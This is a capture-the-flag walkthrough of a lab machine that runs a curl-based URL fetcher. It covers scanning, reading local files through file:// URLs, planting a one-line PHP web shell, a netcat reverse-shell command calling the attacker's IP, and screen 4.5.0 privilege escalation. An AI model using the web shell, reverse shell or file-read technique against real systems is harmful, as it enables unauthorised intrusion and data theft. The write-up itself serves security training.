## nmap
```console
root@kali:~# nmap -sC -sV 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 07:42 EST
Nmap scan report for 10.10.10.24
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u 10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```



## webpages









## curl + LFI + RFI
input URL --> "http://localhost/test.html"  
the output contains %total %received etc. which suggests that its using curl to request the page  



so I tried basic command injection by adding semicolon(;), ampersand(&) and many other symbols and keywords  
but all of them gave the same error in output --> "not a good thing to put in a URL"  



giving "file:///etc/passwd" as input worked because curl can do that  



we can also read the user flag directly even without getting a shell  



but we still need to get a shell  
"http://localhost/exposed.php" --> this just renders the exposed.php page and we can't read the php code  
but "file:///var/www/html/exposed.php" --> gives us the php code  



we can see in the php code that all the useful symbols and keywords are filtered  
but we can still give arguments to the curl command  
so we can make it curl shell.php from our machine and output it in the uploads directory using -o  
shell.php just contains this one liner php code  
```php
<?php system($_GET["c"]); ?>
```



## RCE
now we can access shell.php and execute commands and get a reverse shell  



we can go to the following URL to get a reverse shell  
```
10.10.10.24/uploads/shell.php?c=nc -e /bin/bash 10.10.14.24 8888
```



# privEsc
## suid binary



## screen 4.5.0



the PoC 41152.txt didn't worked so I switched to 41154.sh  
41154.sh gave some EOF error   
so I tried compiling the c files manually but that also gave some error  





after searching for cc1 error, I found out that we need to install cc1 to be able to compile with gcc  
www-data obviously don't have the privilege to install anything  
so I compiled the c files on my machine and then used it on the target machine  
still it gave some error so i did the remaining steps manually as well  




